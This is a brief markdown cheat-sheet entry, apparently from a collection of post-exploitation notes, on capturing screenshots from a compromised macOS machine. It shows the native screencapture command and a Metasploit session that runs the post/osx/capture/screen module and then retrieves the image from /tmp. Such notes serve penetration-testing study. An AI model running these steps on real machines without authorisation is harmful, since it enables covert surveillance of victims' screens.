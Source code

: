 # Screenshot

### 1.1 - Manual

- Mac OSX Screenshot program

`$ screencapture`

### 1.2 - Metasploit

- You can use a metasploit module as well and if you type `info` you can run a session type that it can be either a regular **Shell** or a **Meterpreter**

```
msf > use post/osx/capture/screen

msf post(osx/capture/screen) > options

Module options (post/osx/capture/screen):

   Name      Current Setting          Required  Description
   ----      ---------------          --------  -----------
   COUNT     1                        yes       Number of screenshots to collect.
   DELAY     10                       yes       Interval between screenshots in seconds. 0 for no delay
   EXE_PATH  /usr/sbin/screencapture  yes       Path to remote screencapture executable
   FILETYPE  png                      yes       File format to use when saving a snapshot (Accepted: png, gif)
   SESSION                            yes       The session to run this module on
   TMP_PATH  /tmp/<random>            yes       Path to remote temp directory

msf post(osx/capture/screen) > set session <session_id>

msf post(osx/capture/screen) > run
```

- Once you've took a screenshot download the file in the compromised Mac OSX machine that was stored in the `/tmp/` folder